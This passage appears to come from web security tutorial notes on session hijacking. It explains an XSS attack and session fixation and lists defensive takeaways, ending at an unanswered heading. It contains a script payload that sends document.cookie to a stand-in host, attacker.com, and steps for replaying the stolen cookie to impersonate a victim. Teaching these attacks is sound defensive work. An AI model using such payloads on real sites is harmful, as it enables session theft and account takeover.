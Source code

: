 3. The attacker submits a malicious payload in the search box:
    - When a victim searches for something and their input triggers the malicious script, the browser executes the below script.
```
<script>
  fetch('https://attacker.com/steal?cookie=' + document.cookie);
</script>
```



 4. The malicious script sends the victim's `document.cookie` (containing the session ID) to the attacker's server, https://attacker.com/steal.

 5. The attacker uses the stolen session cookie to impersonate the victim by attaching it to their own browser:
    - Use a browser extension (e.g., EditThisCookie) or developer tools to set the stolen cookie.
    - Once the cookie is set, the attacker is authenticated as the victim and can perform actions on their behalf.

 #### Key Takeaways:

 - `Sanitizing User Input:` Prevent XSS vulnerabilities by sanitizing and escaping user input.

 - `Setting Secure Flags:` Use `HttpOnly`, `Secure`, and `SameSite` attributes for cookies to reduce exposure to attacks.

 - `Encrypting Communications:` Always use HTTPS to prevent passive sniffing.

 <hr/>

 ### Session Fixation

 `Session Fixation` is a vulnerability where an attacker fixes a session identifier (e.g., a cookie or token) and tricks a victim into logging into an application using that identifier. Once the victim is authenticated, the attacker can hijack the session since they already know the identifier.

 #### Stages of Session Fixation Attack:

 1. `Obtain a Valid Session Identifier:`
    - Many applications assign session identifiers to all visitors without requiring authentication.
    - An attacker can also create an account to get a valid session identifier.

2. `Fixate the Session Identifier:`
    - The session identifier assigned before login remains unchanged after login.
    - Vulnerability arises if session identifiers are accepted from URL query strings or POST data.
        - `Example:` If a session ID passed in a URL is accepted and propagated as the session identifier.

3. `Trick the Victim:`
    - The attacker crafts a URL containing the fixed session identifier and lures the victim to visit it.
    - Upon visiting, the victim’s session becomes tied to the attacker’s identifier.

`Impact:` The attacker can hijack the victim’s session and gain unauthorized access to the application.

#### Why HttpOnly won’t prevent session fixation?
